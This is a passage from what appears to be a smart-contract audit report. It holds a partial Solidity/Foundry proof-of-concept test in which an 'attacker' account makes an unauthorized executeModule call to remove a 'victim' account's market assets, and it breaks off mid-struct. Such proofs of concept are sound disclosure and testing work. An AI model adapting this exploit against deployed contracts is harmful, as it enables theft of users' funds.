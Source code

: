 ```solidity
            composeGas: 0,
            sendVal: 0,
            composeVal: 0,
            composeMsg: "0x",
            composeMsgType: 0
        })
    })
});
```

Here is the modified version of the `test_market_remove_asset` test that achieves the same result, but with unauthorized call to `executeModule` function. The `userA` is the attacker, and `userB` is the victim.

```solidity
    function test_malicious_market_remove_asset() public {
        uint256 erc20Amount_ = 1 ether;

        // setup
        {
            deal(address(bUsdo), address(userB), erc20Amount_);

            vm.startPrank(userB);
            bUsdo.approve(address(yieldBox), type(uint256).max);
            yieldBox.depositAsset(bUsdoYieldBoxId, address(userB), address(userB), erc20Amount_, 0);

            uint256 sh = yieldBox.toShare(bUsdoYieldBoxId, erc20Amount_, false);
            yieldBox.setApprovalForAll(address(pearlmit), true);
            pearlmit.approve(
                address(yieldBox), bUsdoYieldBoxId, address(singularity), uint200(sh), uint48(block.timestamp + 1)
            );
            singularity.addAsset(address(userB), address(userB), false, sh);
            vm.stopPrank();
        }

        uint256 tokenAmount_ = 0.5 ether;

        /**
         * Actions
         */
        uint256 tokenAmountSD = usdoHelper.toSD(tokenAmount_, aUsdo.decimalConversionRate());

        //approve magnetar
        vm.startPrank(userB);
        bUsdo.approve(address(magnetar), type(uint256).max);
        singularity.approve(address(magnetar), type(uint256).max);
        vm.stopPrank();
        
        MarketRemoveAssetMsg memory marketMsg = MarketRemoveAssetMsg({
            user: address(userB),
            externalData: ICommonExternalContracts({
                magnetar: address(magnetar),
                singularity: address(singularity),
                bigBang: address(0),
                marketHelper: address(marketHelper)
            }),
            removeAndRepayData: IRemoveAndRepay({
                removeAssetFromSGL: true,
                removeAmount: tokenAmountSD,
                repayAssetOnBB: false,
                repayAmount: 0,
                removeCollateralFromBB: false,
```